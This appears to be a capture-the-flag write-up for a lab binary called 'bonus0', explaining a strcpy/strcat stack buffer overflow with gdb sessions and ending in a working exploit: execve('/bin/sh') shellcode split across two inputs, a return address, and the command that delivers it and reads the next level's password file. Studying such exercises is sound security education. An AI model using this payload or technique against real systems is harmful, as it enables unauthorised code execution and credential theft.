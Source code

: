 # Bonus 0

## Initial Context

- One file: `bonus0`

## Solving the Challenge

The program will prompt for 2 inputs and output them both but after limiting them to 20 characters each.

Looking at the code, we can see `strcpy` and `strcat` which might suggest that a buffer overflow exploit is possible.

And indeed by using a [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can find that EIP is located at offset `9`.

```bash
$ gdb ./bonus0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

As long that the first input is full (20 characters long) we still find the same EIP offset.
 
```bash
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

Why that? Since the two buffer of `pp` are following each others.
Since `first` is not null terminated, we continue on `second`.

1. `strcpy` will copy `20 (first's length)` + `20 (second's length)` + `4 (garbage)` to the `buffer`.
2. A space is added, at the end of the buffer, making it of length `25`.
3. `strcat` will then add another `20 (second's length)` + `4 (garbage)` to the `buffer`, overflowing it.

This can be verified using GDB:

```bash
(gdb) break *pp+122 # at `call   0x8048390 <strcat@plt>`
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x08048598 in > pp ()
```

We can verify that the `second`'s length is `24`.

```bash
(gdb) x *(void**)($esp+4)
0xbffff62c:      'B' <repeats 20 times>"\364, ", <incomplete sequence \375\26
(gdb) call strlen(*(void**)($esp+4))
$1 = 24
```

And that the `buffer`'s length before concat is 45.

```bash
(gdb) x *(void**)$esp
0xbffff666:      'A' <repeats 20 times>, 'B' <repeats 20 times>"\364, \017\375\267 "
(gdb) call strlen(*(void**)$esp)
$2 = 45
```

Since we can have a continuous payload of `29 bytes`, we can store a `shell code` directly into the buffer.

First we need to find the `buffer`'s address via `ltrace` and by looking at the `strcpy`'s return address.

```bash
$ ltrace ./bonus0
...
strcpy(0xbffff736, "A")       = 0xbffff736
...
```

We can craft the payload as follow:

```python
# NOP slide
"\x90" * 5

# first 15 bytes of the shell code
+ "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3"

# padding of 4096 - payload - new line, to return from `read(4096)`
+ "A" * (4096 - 20 - 1) + "\n"

# last 9 bytes of the shell code
+ "\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# `buffer`'s address: 0xbffff736 (or `36 f7 ff bf` in LE)
+ "\x36\xf7\xff\xbf"

# padding of 7 to 20
+ "A" * 7
```

And send it to the vulnerable program:

```bash
$ python -c 'print "\x90" * 5 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3" + "A" * (4096 - 20 - 1) + "\n" + "\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x36\xf7\xff\xbf" + "A" * 7' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0
 -
 -
�����1�Ph//shh/bin��PS�ᙰ
                        ̀6���AAAAAAA��� PS�ᙰ
                                            ̀6���AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass
<flag>
```
